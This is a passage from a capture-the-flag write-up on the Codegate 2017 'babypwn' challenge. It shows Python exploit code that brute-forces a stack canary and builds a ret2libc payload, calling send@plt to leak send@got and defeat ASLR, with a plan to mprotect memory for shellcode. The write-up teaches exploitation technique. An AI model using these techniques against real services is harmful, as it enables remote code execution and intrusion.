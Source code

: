 ```
            guess = 0x0
            break

        except EOFError,e:
            # guessed the wrong byte
            guess += 1

print "Canary:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
print "Hexdump:", hexdump(canary)
```

Running this returns the stack canary:

![](/images/2017/codegate/babypwn/08.png)

ROP chain time!

### Bypassing ASLR

I assumed ASLR was enabled on the server. Why not right? With NX enabled, I couldn't execute on the stack. I needed to store my shellcode in a memory location that I could `mprotect()` to read/write/execute. To do that, I needed to find the address of `mprotect()` first. I did that by overwriting the saved return pointer with the address of `send@plt` and having it print out the address pointed to by `send@got`:

```
buf_1 = "A"*40
buf_1 += canary
buf_1 += "B"*12

# -- STAGE 1 ret2libc to leak address of send() and calculate libc base address

# ret2libc
buf_2 = ""
buf_2 += p32(0x8048700)   # send@plt
buf_2 += "CCCC"
buf_2 += p32(0x4)         # sockfd
buf_2 += p32(0x0804b064)  # send@got
buf_2 += p32(0x4)         # len
buf_2 += p32(0x0)         # flags
buf_2 += "D"*200

payload = buf_1 + buf_2
```
